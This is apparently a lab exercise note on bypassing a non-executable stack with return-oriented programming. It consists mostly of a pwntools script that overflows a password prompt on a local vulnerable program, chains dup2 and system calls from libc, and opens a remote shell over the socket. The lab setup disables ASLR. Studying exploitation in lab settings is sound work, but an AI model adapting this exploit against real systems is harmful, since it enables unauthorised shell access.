 - Using gef extension on gdb get start address of command: `vmmac libc`
- Execute the vulnerable program some where and run this example (change the ip and info):
 ```python
from pwn import *

# Lab 11-2: Bypassing Non-executable stack (NX) with Return Oriented Programming (ROP)
# gcc -no-pie  vuln.c -o vuln
# echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

context(os='linux', arch='amd64')

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address = 0x00007ffff7db2000 #Change this to vmmac address above

rop = ROP(libc)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.dup2(4, 2)
rop.system(next(libc.search(b"/bin/sh")))

log.info(f"ROP Chain:\n{rop.dump()}")

r = remote("127.0.0.1", 4446, level='error') #Port must have the vuln app running

payload  = b"A"*120 #based on the offset
payload += bytes(rop)

r.sendafter("Password: ", payload)
r.interactive()
```
